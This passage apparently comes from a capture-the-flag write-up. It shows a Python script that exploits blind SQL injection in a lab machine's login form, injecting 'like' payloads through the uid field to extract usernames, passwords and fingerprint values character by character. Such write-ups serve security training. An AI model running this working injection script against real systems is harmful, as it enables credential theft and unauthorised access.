 I was able to guess objects “username”, “password”, and “fingerprint”.

Here’s a [video](https://www.youtube.com/watch?v=1efIJEzVR54) of how I wrote the brute force script:

Here’s the final script, though as I showed in the video, it changes a good bit:

```

#!/usr/bin/env python3

import random
import requests
import string

def get_next_char(obj, known, alpha):
    for c in alpha:
        print(f'\r{known}{c}', end="\x1b[2K")
        resp = requests.post(
            "http://10.10.11.127:8080/login",
            data={
                "uid": f"0xdf' or {obj} like '{known}{c}%",
                "auth_primary": "",
                "auth_secondary": f"{random.getrandbits(128):32x}",
            },
            headers={"Content-Type": "application/x-www-form-urlencoded"},
            #proxies={"http": "http://127.0.0.1:8080"},
        )
        if 'Invalid fingerprint-ID' in resp.text or 'query did not return a unique result' in resp.text:
            resp = requests.post(
                "http://10.10.11.127:8080/login",
                data={
                     "uid": f"0xdf' or {obj}='{known}{c}",
                     "auth_primary": "",
                     "auth_secondary": f"{random.getrandbits(128):32x}",
                },
                headers={"Content-Type": "application/x-www-form-urlencoded"},
                #proxies={"http": "http://127.0.0.1:8080"},
            )
            if 'Invalid fingerprint-ID' in resp.text:
                print(f'\33[2k\r{known}{c:<64}')
                return
            get_next_char(obj, f'{known}{c}', alpha)

print("Usernames:")
get_next_char('username', '', string.ascii_lowercase + string.digits)
print("\rPasswords:")
get_next_char('password', '', string.ascii_lowercase + string.digits + '#$&+=<>[]')
print("\rFingerprints:")
get_next_char('fingerprint', '', 'abcdef' + string.digits)
print("\x1b[2K")

```
